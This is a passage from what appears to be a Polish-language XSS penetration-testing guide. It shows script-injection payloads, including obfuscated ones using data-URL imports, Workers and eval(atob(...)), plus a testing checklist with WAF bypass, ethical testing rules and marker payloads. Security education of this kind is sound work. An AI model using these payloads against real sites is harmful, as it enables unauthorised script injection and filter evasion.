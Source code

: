 ### 4. Advanced Techniques
```html
<script>import('data:text/javascript,alert("XSS")')</script>
<script>new Worker('data:,alert("XSS")')</script>
<script>eval(atob('YWxlcnQoIlhTUyIp'))</script>
```

## 🔍 CHECKLISTA TESTOWANIA

### Pre-testing
- [ ] Sprawdź CSP headers
- [ ] Zidentyfikuj punkty wejścia
- [ ] Przeanalizuj filtering
- [ ] Określ kontekst wstrzyknięcia

### Testing
- [ ] Podstawowe payloady
- [ ] Context-specific payloady
- [ ] WAF bypass techniques
- [ ] Encoding variations
- [ ] Event handlers
- [ ] Protocol handlers

### Post-testing
- [ ] Verify exploitation
- [ ] Document findings
- [ ] Assess impact
- [ ] Recommend remediation

## 🚨 ETYCZNE TESTOWANIE

### Zasady
1. **Tylko autoryzowane testy**
2. **Nie modyfikuj danych**
3. **Nie wpływaj na innych użytkowników**
4. **Zachowaj poufność**
5. **Zgłoś znalezione podatności**

### Payload markers
```html
<!-- Użyj unikalnych markerów -->
<script>alert('PENTEST-YOURNAME-' + Date.now())</script>
<img src=x onerror=console.log('PENTEST-YOURNAME-XSS')>
```

## 🔧 NARZĘDZIA POMOCNICZE

### Browser Extensions
- **XSS Hunter**: Blind XSS detection
- **Burp Suite**: Professional testing
- **OWASP ZAP**: Free security testing
